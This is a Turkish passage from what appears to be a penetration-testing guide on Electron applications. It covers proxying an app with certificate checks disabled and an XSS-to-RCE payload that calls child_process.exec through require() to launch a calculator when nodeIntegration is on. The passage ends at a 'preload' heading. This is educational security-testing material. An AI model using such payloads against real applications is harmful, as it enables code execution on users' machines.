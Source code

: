 Başlatma ana yapılandırmasını değiştirin ve aşağıdaki gibi bir proxy kullanmayı ekleyin:
```javascript
"start-main": "electron ./dist/main/main.js --proxy-server=127.0.0.1:8080 --ignore-certificateerrors",
```
## Electron Yerel Kod Enjeksiyonu

Eğer yerel olarak bir Electron Uygulamasını çalıştırabiliyorsanız, muhtemelen keyfi javascript kodunu çalıştırabilirsiniz. Bunu nasıl yapacağınızı kontrol edin:

{% content-ref url="../../../macos-hardening/macos-security-and-privilege-escalation/macos-proces-abuse/macos-electron-applications-injection.md" %}
[macos-electron-applications-injection.md](../../../macos-hardening/macos-security-and-privilege-escalation/macos-proces-abuse/macos-electron-applications-injection.md)
{% endcontent-ref %}

## RCE: XSS + nodeIntegration

Eğer **nodeIntegration** **açık** olarak ayarlandıysa, bir web sayfasının JavaScript'i Node.js özelliklerini kolayca kullanabilir, sadece `require()` çağrısı yaparak. Örneğin, Windows'ta calc uygulamasını çalıştırmanın yolu:
```html
<script>
require('child_process').exec('calc');
// or
top.require('child_process').exec('open /System/Applications/Calculator.app');
</script>
```
<figure><img src="../../../.gitbook/assets/image (1110).png" alt=""><figcaption></figcaption></figure>

## RCE: preload
